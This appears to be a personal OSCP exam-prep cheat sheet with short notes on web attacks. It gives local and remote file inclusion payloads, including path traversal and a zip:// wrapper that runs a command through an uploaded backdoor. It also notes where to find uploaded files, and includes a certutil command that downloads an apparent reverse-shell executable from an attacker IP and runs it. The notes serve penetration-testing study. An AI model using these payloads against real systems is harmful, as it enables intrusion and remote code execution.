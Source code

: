 - [Local File Inclusion](#local-file-inclusion)
- [Remote File Inclusion](#remote-file-inclusion)
- [Curl](#curl)
- [Gobuster](#gobuster)
- [Feroxbuster](#feroxbuster)
- [File Upload Vulnerability](#file-upload-vulnerability)
- [Java Code Execution](#java-code-execution)


# Local File Inclusion
- Click stuff to find out if we can find this ?file=, ?page=
- We could also utilize zip://, file:// php://
  - ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

![image](https://github.com/nuricheun/OSCP/assets/14031269/c80aca68-e70d-42e5-a1ca-dd124e75324f)

**Windows**
- ?page=C:/Windows/System32/drivers/etc/hosts
- ?page=../../../../../../../../Windows/System32/drivers/etc/hosts
- ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

**Linux**


# Remote File Inclusion
- ?page=http://192.168.45.208/somefile.php


# Curl 
- When there are URLs pointing at something suspicious, change method (from GET to POST) with curl can give you clear answers
```bash
curl -X POST -d '{"user":"clumsyadmin", "url":"http://192.168.45.175:443/list-running-procs"}' http://192.168.163.99:33333/list-running-procs
```


# File Upload Vulnerability
```bash
# always check root after uploading something
http://example.com/uploadedsomething.txt
http://example.com/upload/uploadedsomething.txt
http://example.com/uploads/uploadedsomething.txt


```


# Java Code Execution (C:/Windows/Temp/)
```bash
certutil -urlcache -f http://192.168.45.176/rev80.exe C:/Windows/Temp/rev80.exe
C:/Windows/Temp/rev80.exe
```
